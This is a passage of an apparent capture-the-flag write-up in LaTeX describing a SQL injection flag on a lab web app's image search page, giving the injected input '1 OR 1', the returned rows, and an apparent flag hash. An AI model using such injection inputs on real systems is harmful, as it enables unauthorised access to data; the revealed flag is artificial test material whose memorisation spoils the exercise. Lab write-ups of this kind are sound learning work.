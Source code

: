 \section{Flag 01 - SQL Injection (Advanced)}

\paragraph{f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188}

\begin{center}
    \includegraphics[width=0.5\textwidth]{04.Flag01/01-08.png}\\[0cm] 
\end{center}

\subsection{Vulnerability}

SQL Injectable text input in the member search. An
injectible database will allow a person to obtain sensitive information.

\subsection{Location}

'http://<ip-address>:80/?page=searchimg'

\subsection{Method}

I entered `1 OR 1` in the search box. This returned:

ID: 1 or 1
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 or 1
Title: 42 !
Url : https://www.42.fr/42.png

ID: 1 or 1
Title: Google
Url : https://www.google.fr/google.png

ID: 1 or 1
Title: Obama
Url : https://www.obama.org/obama.jpg

ID: 1 or 1
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 or 1
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png\\


